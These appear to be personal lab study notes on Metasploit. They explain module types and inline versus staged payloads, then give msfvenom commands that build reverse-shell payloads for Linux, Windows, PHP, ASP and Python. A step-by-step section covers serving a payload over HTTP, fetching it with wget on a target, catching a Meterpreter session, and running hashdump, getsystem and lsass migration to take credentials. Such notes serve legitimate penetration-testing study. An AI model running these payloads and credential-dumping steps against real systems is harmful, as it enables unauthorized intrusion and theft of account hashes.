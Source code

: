Modules
===
Auxiliary
Encoders
Evasion
Exploits
NOPs
Payloads
- singles
- stagers
- stages
Post


Metasploit has a subtle way to help you identify single (also called “inline”) payloads and staged payloads.

    generic/shell_reverse_tcp
    windows/x64/shell/reverse_tcp

Both are reverse Windows shells. The former is an inline (or single) payload, as indicated by the “_” between “shell” and “reverse”. While the latter is a staged payload, as indicated by the “/” between “shell” and “reverse”.


msfconsole
===
![[Screenshot 2022-06-14 at 16.04.05.png]]

Exploitation
===
### The Metasploit DB
1. `systemctl start postgresql`
2. `msfdb init`
3. msf6 > db_status
--> this should now show postgresql


`db_nmap` will store the hosts and services to the database and can be viewed using `hosts` and `services` commands

`services -S <name>`:
![[Screenshot 2022-06-15 at 09.04.25.png]]

`hashdump` in the meterpreter shell will dump the hashes of all users on a windows system

#### standard payloads 
linux `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
windows `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
php `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
asp
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
python
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

How to get meterpreter revserse shell with msfvenom:
1. `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.59.68 LPORT=9001 -f elf > rev_shell.elf`
2. `python3 -m http.server 8000`
3. on target machine `wget http://<lhost>:8000/rev_shell.elf`
4. on attacking machine in msf6 > `use exploit/multi/handler` + `set payload linux/x86/meterpreter/reverse_tcp` (make it the payload used in msfvenom)
5. set the options + run
6. `./rev_shell.elf` on target machine
7. meterpreter session established:)


Meterpreter
===
useful commands
`hashdump`
`getsystem`
`search -f <filename>
`shell`


finding hashdumps (being able to use it):
- find _lsass.exe_ and migrate to this process (`ps | grep lsass`)